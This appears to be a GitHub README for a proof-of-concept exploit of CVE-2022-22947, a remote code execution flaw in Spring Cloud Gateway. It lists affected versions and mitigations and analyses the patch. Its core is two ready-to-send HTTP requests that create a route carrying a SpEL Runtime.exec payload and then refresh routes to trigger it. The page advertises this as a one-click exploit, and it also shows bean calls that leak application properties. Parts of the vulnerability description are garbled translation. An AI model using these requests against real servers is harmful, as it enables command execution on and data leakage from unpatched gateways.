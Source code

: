 # Spring_CVE_2022_22947
Spring_CVE_2022_22947:Spring Cloud Gateway现高风险漏洞cve,poc漏洞利用,一键利用,开箱即用
![image](https://user-images.githubusercontent.com/53851034/156614534-ec365420-9bca-4236-a10e-98fc7ed71d43.png)

漏洞描述 ：#####
#漏洞
漏洞描述：#####
### Spring Cloud Gateway Spring中API网关攻击。3.1.0及3.0.6版本（包含）之前存在SpEL表达式的插件，当开发者可以利用Actuator API的执行情况下，将是该漏洞的命令选项。
漏洞描述：#####
# 影  响范围 :
## Spring Cloud Gateway以下版本均受影响：

    3.1.0
    3.0.0至3.0.6
    其他老版本 
    
#  缓解方法 ： 
    3.1.x用户应升级到3.1.1+
    3.0.x用户应升级到3.0.7+
    如果不需要Actuator端点，可以通过management.endpoint.gateway.enable：false配置将其禁用
    如果需要Actuator端点，则应使用Spring Security对其进行保护 

CVE-2022-22946：HTTP2 不安全的 TrustManager :

严重性 ： Medium 


![image-20220303141049270](https://user-images.githubusercontent.com/53851034/156614983-1471d8b7-89b5-4e8d-8d5b-a451089a44e9.png)



###





# poc漏洞利用:

### 来自白帽汇:
#### 使用方法:burpsuite改包发送

POST /actuator/gateway/routes/new_route HTTP/1.1    

   Host: 127.0.0.1:9000

   Connection: close

   Content-Type: application/json

   {

     "predicates": [

        {

         "name": "Path",
 
         "args": {

           "_genkey_0": "/new_route/**"
 
        }

        }

     ],

   "filters": [

     {

      "name": "RewritePath",

      "args": {

       "_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec(\"touch/tmp/x\")}",
 
       "_genkey_1": "/${path}"

     }

    }

  ],

 "uri": "https://wya.pl",

 "order": 0

}

POST /actuator/gateway/refresh HTTP/1.1

Host: 127.0.0.1:9000

Content-Type: application/json

Connection: close

Content-Length: 258

{

 "predicate": "Paths: [/new_route], match trailing slash:true",

 "route_id": "new_route",

 "filters": [

   "[[RewritePath#{T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/x\")} =/${path}], order = 1]"

  ],

 "uri": "https://wya.pl",

 "order": 0

}

### 简单说明一下：第一个请求将创建路由；第二个命令强制重新加载配置。并且，在路由的重新加载时，将会执行SpEL表达式。

# 利用方法:


![image](https://user-images.githubusercontent.com/53851034/156774162-2db9bafc-c5d1-4046-9c72-e79649b76d86.png)


SimpleEvaluationContext支持SpEL功能的一个子集，一般来说，它比StandardEvaluationContext更加安全。根据Javadocs的说法，“SimpleEvaluationContext只支持SpEL语言语法的一个子集，例如，不包括对Java类型、构造函数和Bean引用的引用。”

当我在研究这个问题时，我看到SpEL的原始需求来自GitHub repo上的一些问题：主要是用户希望实现一个可以通过SpEL表达式调用的自定义bean。一个例子是管理一个路由的速率限制。

当我研究这个补丁的时候，我发现仍然可以调用没有方法参数的Bean——这意味着#{@gatewayProperties.toString}可以被用来打印出gatewayPropertiesBean的定义。而SimpleEvaluationContext是不允许调用#{@gatewayProperties.setRoutes(..)}的。这在本质上应该只限制getter方法被调用。

#### 或者:

在使用添加和刷新路由所需的两个HTTP请求发送#{@gatewayproperties.tostring}后，可以看到上图所示内容。请注意，一些内部信息可能会遭到泄漏。根据可用的Bean，这可能被用来泄漏应用程序状态的属性或其他属性。

虽然网关服务不用对类路径中包含的bean负责，但它至少应该确保它的库中的bean不会被调用，从而导致泄漏重要信息或对应用程序产生负面影响。

最后，我编写了更多的CodeQL查询，看看会发生什么情况。简单来说，我想在库中找到所有不带参数的方法的bean。然后，递归地查看返回类型，看看是否有任何没有参数的方法可以调用。这些查询看起来类似于bean1.method1.method2这个样子。


